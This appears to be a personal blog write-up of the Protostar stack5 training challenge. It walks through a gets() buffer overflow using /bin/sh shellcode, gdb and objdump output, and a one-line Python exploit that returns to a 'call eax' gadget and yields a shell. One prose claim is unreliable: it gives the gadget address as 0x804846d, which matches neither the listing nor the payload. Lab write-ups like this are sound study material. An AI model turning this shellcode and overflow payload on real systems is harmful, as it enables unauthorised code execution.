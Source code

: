 ```yaml
---
layout: post
title: "Protostar stack05 writeup"
tags: [protostar, pwn]
comments: false
---
```


This challenge gives out a source code

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Unlike from the other challenges, this one doesn't contain any functions like the win() function.
In the challenge description it says to use shellcode.

my shellcode where it executes /bin/sh will be
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```
which is 25 bytes

When I was going through the binary I realized that the register eax contains the start of the buf[64] address

```
(gdb) b *main+21
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5 
AAAA

Breakpoint 1, main (argc=1, argv=0xbffffd54) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) x/10x $esp
0xbffffc50:     0xbffffc60      0xb7ec6165      0xbffffc68      0xb7eada75
0xbffffc60:     0x41414141      0x08049500      0xbffffc78      0x080482c4
0xbffffc70:     0xb7ff1040      0x0804958c
(gdb) info reg
eax            0xbffffc60       -1073742752
```

So if I start the buf[64] by putting in the shellcode then put in some dummy values to reach ret and then overwrite it with an address that calls eax(which will be call eax) then it will run the shellcode.

to find an instruction of call eax
```
root@protostar:/opt/protostar/bin# objdump -d stack5 -M intel | grep call
 804829f:       e8 00 00 00 00          call   80482a4 <_init+0xc>
 80482b5:       e8 1e 00 00 00          call   80482d8 <__gmon_start__@plt>
 80482ba:       e8 e1 00 00 00          call   80483a0 <frame_dummy>
 80482bf:       e8 8c 01 00 00          call   8048450 <__do_global_ctors_aux>
 804832c:       e8 c7 ff ff ff          call   80482f8 <__libc_start_main@plt>
 8048378:       ff 14 85 ac 94 04 08    call   DWORD PTR [eax*4+0x80494ac]
 80483bf:       ff d0                   call   eax
 80483d4:       e8 0f ff ff ff          call   80482e8 <gets@plt>
 80483f6:       e8 4f 00 00 00          call   804844a <__i686.get_pc_thunk.bx>
 8048404:       e8 8f fe ff ff          call   8048298 <_init>
 8048434:       ff 94 b3 18 ff ff ff    call   DWORD PTR [ebx+esi*4-0xe8]
 804846b:       ff d0                   call   eax
 8048483:       e8 00 00 00 00          call   8048488 <_fini+0xc>
 804848f:       e8 ac fe ff ff          call   8048340 <__do_global_dtors_aux>
```

You can see that call eax is located at 0x804846d

So if we make a exploit it will be

```
root@protostar:/opt/protostar/bin# (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"A"*51+"\xbf\x83\x04\x08"';cat) | ./stack5
whoami
root
```

even though I am already on root, it's fine because we can still see that the shellcode worked.

